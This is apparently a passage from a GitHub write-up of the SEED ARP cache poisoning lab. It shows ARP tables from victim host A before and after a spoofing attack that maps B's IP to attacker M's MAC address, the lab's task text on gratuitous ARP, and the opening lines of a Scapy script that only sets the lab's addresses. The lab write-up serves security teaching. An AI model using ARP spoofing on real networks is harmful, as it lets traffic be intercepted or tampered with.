 ```
	64 bytes from 10.9.0.6: icmp_seq=2 ttl=64 time=0.148 ms
	64 bytes from 10.9.0.6: icmp_seq=3 ttl=64 time=0.163 ms
	64 bytes from 10.9.0.6: icmp_seq=4 ttl=64 time=0.171 ms
	^C
	--- 10.9.0.6 ping statistics ---
	4 packets transmitted, 4 received, 0% packet loss, time 3078ms
	rtt min/avg/max/mdev = 0.148/0.219/0.396/0.102 ms
// Scenario 1: B’s IP is already in A’s cache
// Before Attack
root@A-10.9.0.5:/# arp -n
	Address                  HWtype  HWaddress           Flags Mask            Iface
	10.9.0.6                 ether   02:42:0a:09:00:06   C                     eth0
// After Attack
root@A-10.9.0.5:/# arp -n
	Address                  HWtype  HWaddress           Flags Mask            Iface
	10.9.0.6                 ether   02:42:0a:09:00:69   C                     eth0
// Scenario 2: B’s IP is not in A’s cache
// Before Attack
root@A-10.9.0.5:/# arp -d 10.9.0.6
root@A-10.9.0.5:/# arp -n
// After Attack
root@A-10.9.0.5:/# arp -n
```

#### Results
> - Scenario 1:
> 	 - The attack is successful.
> 	 - After executing the attack, Victim A changed IP address of Victim B (10.9.0.6) to point towards the mac address of Attacker M (02:42:0a:09:00:69).
>  - Scenario 2:
> 	  - The attack is unsuccessful.
>    - After executing the attack, nothing changed in Victim A.

## Task 1.C (using ARP gratuitous message)
On host M, construct an ARP gratuitous packet, and use it to map B’s IP address to M’s MAC address. Please launch the attack under the same two scenarios as those described in Task 1.B.

ARP gratuitous packet is a special ARP request packet. It is used when a host machine needs to
update outdated information on all the other machine’s ARP cache. The gratuitous ARP packet has
the following characteristics:
- The source and destination IP addresses are the same, and they are the IP address of the host issuing the gratuitous ARP.
- The destination MAC addresses in both ARP header and Ethernet header are the broadcast MAC
address (ff:ff:ff:ff:ff:ff).
- No reply is expected.

#### Python [ARP-Gratuitious.py](https://github.com/tyletran08/seed-lab-arp-attack/blob/main/python/ARP-Gratuitious.py)
```python
from scapy.all import *

# Victim A's values
a_mac   = "02:42:0a:09:00:05"   # MAC of A
a_ip    = "10.9.0.5"            # IP of A

# Victim B's values
b_mac   = "02:42:0a:09:00:06"   # MAC of B
b_ip    = "10.9.0.6"            # IP of B

# Attacker's values
m_mac   = "02:42:0a:09:00:69"   # MAC of M
m_ip    = "10.9.0.105"          # IP of M

```